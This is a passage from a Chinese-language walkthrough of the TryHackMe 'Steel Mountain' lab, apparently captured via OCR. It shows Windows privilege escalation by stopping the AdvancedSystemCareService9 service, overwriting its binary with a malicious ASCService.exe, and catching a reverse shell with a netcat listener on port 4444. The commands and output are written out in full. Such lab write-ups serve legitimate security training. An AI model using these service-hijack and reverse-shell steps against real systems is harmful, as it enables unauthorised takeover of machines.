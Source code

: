    C:\Users\bill\Desktop>dir
   dir
   Volume in drive C has no label.
   Volume Serial Number is 2E4A-906A

   Directory of C:\Users\bill\Desktop

   12/04/2023  07:29 AM    <DIR>          .
   12/04/2023  07:29 AM    <DIR>          ..
   12/04/2023  07:29 AM            73,802 ASCService.exe
   09/27/2019  04:42 AM                70 user.txt
   12/04/2023  07:11 AM         1,968,640 winPEAS.exe
                  3 File(s)      2,042,512 bytes
                  2 Dir(s)  44,153,401,344 bytes free

   ```

+ 剩余步骤和之前MSF利用一致：先停止AdvancedSystemCareService9服务，再将恶意二进制文件替换应用程序文件，启动本地监听（这里设置的4444端口）后启动AdvancedSystemCareService9服务即可完成提权,

   ```
   C:\Users\bill\Desktop>sc stop AdvancedSystemCareService9
   sc stop AdvancedSystemCareService9
   [SC] ControlService FAILED 1062:

   The service has not been started.


   C:\Users\bill\Desktop>copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
   copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
   Overwrite \Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): yes
   yes
         1 file(s) copied.
   ```
   ```
   ┌──(kali㉿kali)-[~/桌面/THM/steelmountion]
   └─$ nc -nlvp 4444
   listening on [any] 4444 ...
   ```
   ```
   C:\Users\bill\Desktop>sc start AdvancedSystemCareService9
   sc start AdvancedSystemCareService9
   [SC] StartService FAILED 1053:

   The service did not respond to the start or control request in a timely fashion.
   ```
   这里出现错误是由于之前实验已经提权过，可能有影响，建议重启lab环境再次进行以上操作，这里不再进行演示
  
## Reference 

[Steel Mountain](https://tryhackme.com/room/steelmountain)

[利用 msfvenom 生成 shell 的方法](https://zhuanlan.zhihu.com/p/159078614)